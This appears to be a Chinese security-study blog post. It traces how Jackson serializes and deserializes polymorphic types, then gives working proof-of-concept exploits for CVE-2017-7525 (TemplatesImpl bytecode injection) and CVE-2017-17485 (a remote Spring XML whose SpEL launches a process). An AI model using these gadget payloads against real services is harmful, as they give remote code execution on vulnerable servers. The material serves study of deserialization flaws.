+++
title= "Jackson反序列化漏洞"
slug= "jackson-deserialization"
description= "太复杂了😟"
date= "2025-11-27T21:34:40+08:00"
lastmod= "2025-11-27T21:34:40+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 反序列化中类属性方法的调用

针对 JacksonPolymorphicDeserialization 也就是 Jackson 中多态的反序列化场景进行分析

通过前面的学习，我们知道其反序列化必然是会触发 setter 方法的，这里 debug 一下学习下流程

不过我们是知道的，序列化会触发 getter 方法，反序列化触发 setter 方法，所以可以直接打断点在恶意类中，直接获得调用栈，再去分析方法为什么那么写👏

### 序列化

```java
public String writeValueAsString(Object value) throws JsonProcessingException {
    SegmentedStringWriter sw = new SegmentedStringWriter(this._jsonFactory._getBufferRecycler());

    try {
        this._writeValueAndClose(this.createGenerator((Writer)sw), value);
    } catch (JsonProcessingException e) {
        throw e;
    } catch (IOException e) {
        throw JsonMappingException.fromUnexpectedIOE(e);
    }

    return sw.getAndClear();
}
```

先容器初始化，由于 Jackson 非常注重性能，所以 _getBufferRecycler 会复用底层的 char 数组缓冲区（Buffer），避免每次序列化都申请新的内存空间，从而减少 GC 压力，然后跟进 _writeValueAndClose

```java
protected final void _writeValueAndClose(JsonGenerator g, Object value) throws IOException {
    SerializationConfig cfg = this.getSerializationConfig();
    if (cfg.isEnabled(SerializationFeature.CLOSE_CLOSEABLE) && value instanceof Closeable) {
        this._writeCloseable(g, value, cfg);
    } else {
        try {
            this._serializerProvider(cfg).serializeValue(g, value);
        } catch (Exception e) {
            ClassUtil.closeOnFailAndThrowAsIOE(g, e);
            return;
        }

        g.close();
    }
}
```

首先获取序列化配置，判断是否是 Closeable 资源（序列化后自动关闭资源），接着跟进 _serializerProvider 方法

```java
protected DefaultSerializerProvider _serializerProvider(SerializationConfig config) {
    return this._serializerProvider.createInstance(config, this._serializerFactory);
}
```

创建序列化提供者，这玩意周期是一次性的，序列化之后就抛弃掉，现在来看 serializeValue

```java
public void serializeValue(JsonGenerator gen, Object value) throws IOException {
    this._generator = gen;
    if (value == null) {
        this._serializeNull(gen);
    } else {
        Class<?> cls = value.getClass();
        JsonSerializer<Object> ser = this.findTypedValueSerializer(cls, true, (BeanProperty)null);
        PropertyName rootName = this._config.getFullRootName();
        if (rootName == null) {
            if (this._config.isEnabled(SerializationFeature.WRAP_ROOT_VALUE)) {
                this._serialize(gen, value, ser, this._config.findRootName(cls));
                return;
            }
        } else if (!rootName.isEmpty()) {
            this._serialize(gen, value, ser, rootName);
            return;
        }

        this._serialize(gen, value, ser);
    }
}
```

会去寻找序列化器，我们跟进 findTypedValueSerializer 查看下逻辑

```java
public JsonSerializer<Object> findTypedValueSerializer(Class<?> valueType, boolean cache, BeanProperty property) throws JsonMappingException {
    JsonSerializer<Object> ser = this._knownSerializers.typedValueSerializer(valueType);
    if (ser != null) {
        return ser;
    } else {
        ser = this._serializerCache.typedValueSerializer(valueType);
        if (ser != null) {
            return ser;
        } else {
            ser = this.findValueSerializer(valueType, property);
            TypeSerializer typeSer = this._serializerFactory.createTypeSerializer(this._config, this._config.constructType(valueType));
            if (typeSer != null) {
                typeSer = typeSer.forProperty(property);
                ser = new TypeWrappedSerializer(typeSer, ser);
            }

            if (cache) {
                this._serializerCache.addTypedSerializer(valueType, ser);
            }

            return ser;
        }
    }
}
```

有三重序列化器加载机制，_knownSerializers、_serializerCache、findValueSerializer，前两重为缓存加载，最后一种是寻找基础序列化器，在缓存加载失败之后，会判断是否进行多态化，如果是，创建一个新的 TypeWrappedSerializer，然后存入缓存，方便下次加载，



对加载的 bean 进行拆解，写成 json 字符串

```java
protected void serializeFields(Object bean, JsonGenerator gen, SerializerProvider provider) throws IOException {
    BeanPropertyWriter[] props;
    if (this._filteredProps != null && provider.getActiveView() != null) {
        props = this._filteredProps;
    } else {
        props = this._props;
    }

    int i = 0;

    try {
        for(int len = props.length; i < len; ++i) {
            BeanPropertyWriter prop = props[i];
            if (prop != null) {
                prop.serializeAsField(bean, gen, provider);
            }
        }

        if (this._anyGetterWriter != null) {
            this._anyGetterWriter.getAndSerialize(bean, gen, provider);
        }
    } catch (Exception e) {
        String name = i == props.length ? "[anySetter]" : props[i].getName();
        this.wrapAndThrow(provider, e, bean, name);
    } catch (StackOverflowError e) {
        DatabindException mapE = new JsonMappingException(gen, "Infinite recursion (StackOverflowError)", e);
        String name = i == props.length ? "[anySetter]" : props[i].getName();
        mapE.prependPath(bean, name);
        throw mapE;
    }

}
```

Jackson 支持 @JsonView（根据不同场景显示不同字段），如果有视图过滤，就用过滤后的 _filteredProps，否则直接用 _props，这里面存着 Wrapper 类的所有字段，得到字段以后，循环遍历字段写入 key 和对象

```java
public void serializeAsField(Object bean, JsonGenerator gen, SerializerProvider prov) throws Exception {
    Object value = this._accessorMethod == null ? this._field.get(bean) : this._accessorMethod.invoke(bean, (Object[])null);
    if (value == null) {
        if (this._nullSerializer != null) {
            gen.writeFieldName(this._name);
            this._nullSerializer.serialize((Object)null, gen, prov);
        }

    } else {
        JsonSerializer<Object> ser = this._serializer;
        if (ser == null) {
            Class<?> cls = value.getClass();
            PropertySerializerMap m = this._dynamicSerializers;
            ser = m.serializerFor(cls);
            if (ser == null) {
                ser = this._findAndAddDynamic(m, cls, prov);
            }
        }

        if (this._suppressableValue != null) {
            if (MARKER_FOR_EMPTY == this._suppressableValue) {
                if (ser.isEmpty(prov, value)) {
                    return;
                }
            } else if (this._suppressableValue.equals(value)) {
                return;
            }
        }

        if (value != bean || !this._handleSelfReference(bean, gen, prov, ser)) {
            gen.writeFieldName(this._name);
            if (this._typeSerializer == null) {
                ser.serialize(value, gen, prov);
            } else {
                ser.serializeWithType(value, gen, prov, this._typeSerializer);
            }

        }
    }
}
```

Jackson 利用反射从 bean 里取出当前字段的值，这里的 value 就是恶意类，再以 Lazy Lookup 的方式寻找序列化器，先从缓存中查找，如果没有再创建，接着判断是否多态化，再相应写入 Key 和 Value

```java
public void serializeWithType(Object bean, JsonGenerator gen, SerializerProvider provider, TypeSerializer typeSer) throws IOException {
    if (this._objectIdWriter != null) {
        this._serializeWithObjectId(bean, gen, provider, typeSer);
    } else {
        WritableTypeId typeIdDef = this._typeIdDef(typeSer, bean, JsonToken.START_OBJECT);
        typeSer.writeTypePrefix(gen, typeIdDef);
        gen.setCurrentValue(bean);
        if (this._propertyFilterId != null) {
            this.serializeFieldsFiltered(bean, gen, provider);
        } else {
            this.serializeFields(bean, gen, provider);
        }

        typeSer.writeTypeSuffix(gen, typeIdDef);
    }
}
```

准备类型 id，然后写 json，至此重复一个过程，serializeFields->serializeAsField->serializeWithType 直到序列化完成

序列化调用栈

```java
at org.Polymorphism.JsonTypeInfo.EvilDeduction.getCmd(EvilDeduction.java:15)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeWithType(BeanSerializerBase.java:657)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:730)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:480)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:319)
at com.fasterxml.jackson.databind.ObjectMapper._writeValueAndClose(ObjectMapper.java:4568)
at com.fasterxml.jackson.databind.ObjectMapper.writeValueAsString(ObjectMapper.java:3821)
at org.Polymorphism.JsonTypeInfo.DemoIdDeduction.main(DemoIdDeduction.java:12)
```

### 反序列化

```java
public <T> T readValue(String content, Class<T> valueType) throws JsonProcessingException, JsonMappingException {
    this._assertNotNull("content", content);
    return (T)this.readValue(content, this._typeFactory.constructType(valueType));
}
```

类型转换，从 class 到 JavaType，然后进入 readValue

```java
public <T> T readValue(String content, JavaType valueType) throws JsonProcessingException, JsonMappingException {
    this._assertNotNull("content", content);

    try {
        return (T)this._readMapAndClose(this._jsonFactory.createParser(content), valueType);
    } catch (JsonProcessingException e) {
        throw e;
    } catch (IOException e) {
        throw JsonMappingException.fromUnexpectedIOE(e);
    }
}
```

从工厂创建解析器，把 JSON 字符串 变成 Jackson 能理解的 Token 流，类似于下图



```java
protected Object _readMapAndClose(JsonParser p0, JavaType valueType) throws IOException {
    JsonParser p = p0;
    Throwable var4 = null;

    Object var9;
    try {
        DeserializationConfig cfg = this.getDeserializationConfig();
        DefaultDeserializationContext ctxt = this.createDeserializationContext(p, cfg);
        JsonToken t = this._initForReading(p, valueType);
        Object result;
        if (t == JsonToken.VALUE_NULL) {
            result = this._findRootDeserializer(ctxt, valueType).getNullValue(ctxt);
        } else if (t != JsonToken.END_ARRAY && t != JsonToken.END_OBJECT) {
            result = ctxt.readRootValue(p, valueType, this._findRootDeserializer(ctxt, valueType), (Object)null);
            ctxt.checkUnresolvedObjectId();
        } else {
            result = null;
        }

        if (cfg.isEnabled(DeserializationFeature.FAIL_ON_TRAILING_TOKENS)) {
            this._verifyNoTrailingTokens(p, ctxt, valueType);
        }

        var9 = result;
    } catch (Throwable var18) {
        var4 = var18;
        throw var18;
    } finally {
        if (p0 != null) {
            if (var4 != null) {
                try {
                    p.close();
                } catch (Throwable var17) {
                    var4.addSuppressed(var17);
                }
            } else {
                p0.close();
            }
        }

    }

    return var9;
}
```

获取反序列化配置，然后创建反序列化上下文，检查 json 开头读取 token，如果不为 null 就获取反序列化器，再进行反序列化

```java
public Object readRootValue(JsonParser p, JavaType valueType, JsonDeserializer<Object> deser, Object valueToUpdate) throws IOException {
    if (this._config.useRootWrapping()) {
        return this._unwrapAndDeserialize(p, valueType, deser, valueToUpdate);
    } else {
        return valueToUpdate == null ? deser.deserialize(p, this) : deser.deserialize(p, this, valueToUpdate);
    }
}
```

检查是否开启了 UNWRAP_ROOT_VALUE 配置，一般是没开启的，

```java
public Object deserialize(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (p.isExpectedStartObjectToken()) {
        if (this._vanillaProcessing) {
            return this.vanillaDeserialize(p, ctxt, p.nextToken());
        } else {
            p.nextToken();
            return this._objectIdReader != null ? this.deserializeWithObjectId(p, ctxt) : this.deserializeFromObject(p, ctxt);
        }
    } else {
        return this._deserializeOther(p, ctxt, p.currentToken());
    }
}
```

这里要理解到极速模式 _vanillaProcessing，如果 Bean 非常简单（没有自定义构造器、没有 @JsonIdentityInfo、没有复杂的继承关系），Jackson 就会把这个标记设为 true，但是如果 Wrapper 类比较复杂，就会走这边，逻辑其实和上面差不多，只是处理的边缘情况更多。

```java
private final Object vanillaDeserialize(JsonParser p, DeserializationContext ctxt, JsonToken t) throws IOException {
    Object bean = this._valueInstantiator.createUsingDefault(ctxt);
    p.setCurrentValue(bean);
    if (p.hasTokenId(5)) {
        String propName = p.currentName();

        do {
            p.nextToken();
            SettableBeanProperty prop = this._beanProperties.find(propName);
            if (prop != null) {
                try {
                    prop.deserializeAndSet(p, ctxt, bean);
                } catch (Exception e) {
                    this.wrapAndThrow(e, bean, propName, ctxt);
                }
            } else {
                this.handleUnknownVanilla(p, ctxt, bean, propName);
            }
        } while((propName = p.nextFieldName()) != null);
    }

    return bean;
}
```

利用 ValueInstantiator 调用目标类（Wrapper）的无参构造函数，创建一个空的 Java 对象实例，再遍历 JSON 对象中的所有字段（Token）

```java
public void deserializeAndSet(JsonParser p, DeserializationContext ctxt, Object instance) throws IOException {
    Object value;
    if (p.hasToken(JsonToken.VALUE_NULL)) {
        if (this._skipNulls) {
            return;
        }

        value = this._nullProvider.getNullValue(ctxt);
    } else if (this._valueTypeDeserializer == null) {
        value = this._valueDeserializer.deserialize(p, ctxt);
        if (value == null) {
            if (this._skipNulls) {
                return;
            }

            value = this._nullProvider.getNullValue(ctxt);
        }
    } else {
        value = this._valueDeserializer.deserializeWithType(p, ctxt, this._valueTypeDeserializer);
    }

    try {
        this._field.set(instance, value);
    } catch (Exception e) {
        this._throwAsIOE(p, e, value);
    }

}
```

这个和序列化的 serializeAsField 是一对的，声明一个临时变量，用于存放即将反序列化出来的对象，检查JSON 指针是否指向 null 值，然后检查是否有多态配置，然后再反序列化

```java
public Object deserializeTypedFromAny(JsonParser p, DeserializationContext ctxt) throws IOException {
    return p.hasToken(JsonToken.START_ARRAY) ? super.deserializeTypedFromArray(p, ctxt) : this.deserializeTypedFromObject(p, ctxt);
}
```

用来兼容数组模式的 json 和普通的对象 json，中途跳过了两个 Deduction 去匹配类的方法，接着看

```java
public Object deserialize(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (p.isExpectedStartObjectToken()) {
        if (this._vanillaProcessing) {
            return this.vanillaDeserialize(p, ctxt, p.nextToken());
        } else {
            p.nextToken();
            return this._objectIdReader != null ? this.deserializeWithObjectId(p, ctxt) : this.deserializeFromObject(p, ctxt);
        }
    } else {
        return this._deserializeOther(p, ctxt, p.currentToken());
    }
}
```

判断 JsonParser 当前是否停在 JSON 对象的开始符号 START_OBJECT 上，然后检查 Bean 是否复杂进行分流

```java
protected final Object _deserializeOther(JsonParser p, DeserializationContext ctxt, JsonToken t) throws IOException {
    if (t != null) {
        switch (t) {
            case VALUE_STRING:
                return this.deserializeFromString(p, ctxt);
            case VALUE_NUMBER_INT:
                return this.deserializeFromNumber(p, ctxt);
            case VALUE_NUMBER_FLOAT:
                return this.deserializeFromDouble(p, ctxt);
            case VALUE_EMBEDDED_OBJECT:
                return this.deserializeFromEmbedded(p, ctxt);
            case VALUE_TRUE:
            case VALUE_FALSE:
                return this.deserializeFromBoolean(p, ctxt);
            case VALUE_NULL:
                return this.deserializeFromNull(p, ctxt);
            case START_ARRAY:
                return this._deserializeFromArray(p, ctxt);
            case FIELD_NAME:
            case END_OBJECT:
                if (this._vanillaProcessing) {
                    return this.vanillaDeserialize(p, ctxt, t);
                }

                if (this._objectIdReader != null) {
                    return this.deserializeWithObjectId(p, ctxt);
                }

                return this.deserializeFromObject(p, ctxt);
        }
    }
```

在多态反序列化的某些复杂场景下，比如当 TypeDeserializer 已经利用 TokenBuffer 处理完了所有数据，或者解析器序列正好把指针留在了结束符 } 上时，Jackson 会发现当前已经没有字段可读了。为了完成反序列化流程，它会进入这个方法并匹配到`case END_OBJECT`分支，然后调用 vanillaDeserialize。此时，Jackson 会直接实例化对象并立即跳过字段填充循环，最终返回一个新建的对象实例，接着再次触发`prop.deserializeAndSet(p, ctxt, bean);`



最终触发到 setter 方法

反序列化调用栈

```java
at org.Polymorphism.JsonTypeInfo.EvilDeduction.setCmd(EvilDeduction.java:19)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:141)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:313)
at com.fasterxml.jackson.databind.deser.BeanDeserializer._deserializeOther(BeanDeserializer.java:214)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:186)
at com.fasterxml.jackson.databind.jsontype.impl.AsPropertyTypeDeserializer._deserializeTypedForId(AsPropertyTypeDeserializer.java:144)
at com.fasterxml.jackson.databind.jsontype.impl.AsDeductionTypeDeserializer.deserializeTypedFromObject(AsDeductionTypeDeserializer.java:140)
at com.fasterxml.jackson.databind.jsontype.impl.AsPropertyTypeDeserializer.deserializeTypedFromAny(AsPropertyTypeDeserializer.java:213)
at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:781)
at com.fasterxml.jackson.databind.deser.impl.FieldProperty.deserializeAndSet(FieldProperty.java:147)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:313)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:176)
at com.fasterxml.jackson.databind.deser.DefaultDeserializationContext.readRootValue(DefaultDeserializationContext.java:323)
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:4674)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:3629)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:3597)
at org.Polymorphism.JsonTypeInfo.DemoIdDeduction.main(DemoIdDeduction.java:14)
```

## CVE

### CVE-2017-7525 TemplatesImpl利用链

我们知道后来使用 TemplatesImpl 类需要设置这三个必要属性，_bytecodes、_name 和 _tfactory，而且还都是通过 setter 方法设置的，但是较早的时候不需要 _tfactory 属性，我们在学习 hessian 反序列化的时候也知道，这三个必要属性任意一个为 null 抛出错误都无法触发，刚才我们调试反序列化的时候其实也发现了一个神奇的方法 deserializeAndSet 很多类都有这个方法，来应对不同情况，现在来看`SetterlessProperty#deserializeAndSet`

```java
public final void deserializeAndSet(JsonParser p, DeserializationContext ctxt, Object instance) throws IOException {
    if (!p.hasToken(JsonToken.VALUE_NULL)) {
        if (this._valueTypeDeserializer != null) {
            ctxt.reportBadDefinition(this.getType(), String.format("Problem deserializing 'setterless' property (\"%s\"): no way to handle typed deser with setterless yet", this.getName()));
        }

        Object toModify;
        try {
            toModify = this._getter.invoke(instance, (Object[])null);
        } catch (Exception e) {
            this._throwAsIOE(p, e);
            return;
        }

        if (toModify == null) {
            ctxt.reportBadDefinition(this.getType(), String.format("Problem deserializing 'setterless' property '%s': get method returned null", this.getName()));
        }

        this._valueDeserializer.deserialize(p, ctxt, toModify);
    }
}
```

当一个字段没有 setter 方法并且有 getter 方法，而且字段类型是 Collection，Properties 都满足，再找一下 _name 和 _bytecodes 的 setter 方法





那么可以写出以下 poc 同时为了方便可以直接把包装类写到 poc 里面

```java
package org.cve;

import com.fasterxml.jackson.databind.ObjectMapper;
import javassist.ClassPool;
import javassist.CtClass;
import javax.xml.bind.DatatypeConverter;

public class cve20177525 {

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(org.cve.Evil.class.getName());
        byte[] bytecodes = ctClass.toBytecode();

        String base64Bytecodes = DatatypeConverter.printBase64Binary(bytecodes);
        String jsonInput = aposToQuotes("{\"object\":['com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "{\n" +
                "'transletBytecodes':['" + base64Bytecodes + "'],\n" +
                "'transletName':'pwnd',\n" +
                "'outputProperties':{}\n" +
                "}\n" +
                "]\n" +
                "}");

        //System.out.println("Payload: " + jsonInput);

        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();

        try {
            mapper.readValue(jsonInput, Test.class);
        } catch (Exception e) {
            System.out.println(e.getMessage());
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }
}

class Test {
    public Object object;
}
```

调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:431)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:601)
at com.fasterxml.jackson.databind.deser.impl.SetterlessProperty.deserializeAndSet(SetterlessProperty.java:105)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:260)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:125)
at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromAny(AsArrayTypeDeserializer.java:68)
at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:554)
at com.fasterxml.jackson.databind.deser.SettableBeanProperty.deserialize(SettableBeanProperty.java:493)
at com.fasterxml.jackson.databind.deser.impl.FieldProperty.deserializeAndSet(FieldProperty.java:101)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:260)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:125)
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:3807)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:2797)
at org.cve.cve20177525.main(cve20177525.java:31)
```

使用的 pom.xml，jdk7u21

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>jacksonCVE</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>7</maven.compiler.source>
        <maven.compiler.target>7</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.25.0-GA</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-core</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-annotations</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-io</artifactId>
            <version>1.3.2</version>
        </dependency>
        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.6</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>4.3.13.RELEASE</version>
        </dependency>
    </dependencies>

</project>
```

### CVE-2017-17485 ClassPathXmlApplicationContext利用链

这个漏洞主要是滥用Spring的SpEL表达式注入漏洞

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">

    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <list>
                <value>open</value>
                <value>-a</value>
                <value>Calculator</value>
            </list>
        </constructor-arg>
        
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

poc 如下

```java
package org.cve;

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class CVE201717485 {
    public static void main(String[] args)  {

        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:10000/poc.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

